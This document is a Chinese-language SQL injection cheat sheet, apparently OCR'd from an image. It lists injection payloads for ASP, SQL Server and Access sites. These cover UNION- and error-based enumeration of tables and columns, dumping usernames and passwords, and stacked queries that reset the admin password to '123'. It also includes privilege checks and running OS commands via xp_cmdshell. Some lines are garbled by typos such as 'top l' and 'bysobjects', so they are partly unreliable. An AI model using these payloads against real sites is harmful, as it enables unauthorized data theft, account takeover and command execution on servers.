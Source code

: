 	order by 3
	select @@version,database(),user()


	union select table_name from information_schema.tables where table_schema=database()
	union select column_name from information_schema.columns where table_name=$tablename
	union select $column from $tablename
	
	获取数据库版本
		and (select @@version)>0
	获取当前数据库名
		and db_name()>0
	获取当前数据库用户名
		and user>0
		and user_name()='dbo'
		
	猜解所有数据库名称
		and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) <>0
	猜解表的字段名称
		and (Select Top 1 col_name(object_id('表名'),1) from sysobjects)>0
		and (select top 1 asernaose from admin where id =1)>1
		.asp?id=xx having 1=1  其中admin.id就是一个表名admin 一个列名id
		.asp?id=xx group by admin.id having 1=1 可以得到列名
		.asp?id=xx group by admin.id,admin.username having 1=1 得到另一个列名 页面要和表有联系
	
	如果知道了表名和字段名就可以爆出准确的值
	union select 1,2,username,password,5,6,7,8,9,10,11,12 from usertable where id=6
	
	爆账号
		union select min(username),1,1,1，.. from users where username > 'a'
	依次循环爆其余的账号
		union select min(username),1,1,1,.. from users where username > 'admin'
		;begin declare @ret varchar(8000) set @ret=':' select @ret=@ret+' '+username+'/'+password from userstable where username>@ret select @ret as ret into foo end
	修改管理员的密码为123
		.asp?id=××;update admin set password='123' where id =1
		.asp?id=××;insert into admin(asd,..) values(123,..) –就能能往admin中写入123了
	rebots.txt
	
	猜解数据库中用户名表的名称
		and (select count(*) from 数据库.dbo.表名)>0
	若表名存在，则工作正常，否则异常
		得到用户名表的名称，基本的实现方法是
		1：
		and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 )>0 或
		and (Select Top 1 name from sysobjects where xtype=’U’ and status>0)>0
		  但在异常中却可以发现表的名称。假设发现的表名是xyz，则
		2：
		and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 and name not in('xyz'，'..'..))>0
		  可以得到第二个用户建立的表的名称，同理就可得到所有用建立的  表的名称
		3:
		and (select top l name from (select top [N]id,name from bysobjects where  xtype=char(85)) T order  by  id  desc)＞1 Ｎ为数据库中地N个表
		利用系统表区分数据库类型
		and (select count(*) from  sysobjects)>0
		and (select count(*) from msysobjects)>0
		若是SQL-SERVE则第一条,ACCESS则两条都会异常
		判断是否有比较高的权限
		and 1=(select is_srvrolemember('sysadmin'))
		and 1=(select is_srvrolemember('serveradmin'))
		判断当前数据库用户名是否为db_owner:
		and 1=(select is_member('db_owner'))
		xp_cmdshell
		:exec master..xp_cmdshell '要执行的cmd命令'
		判断长度
		and (select top 1 len(字段) from 表名)>5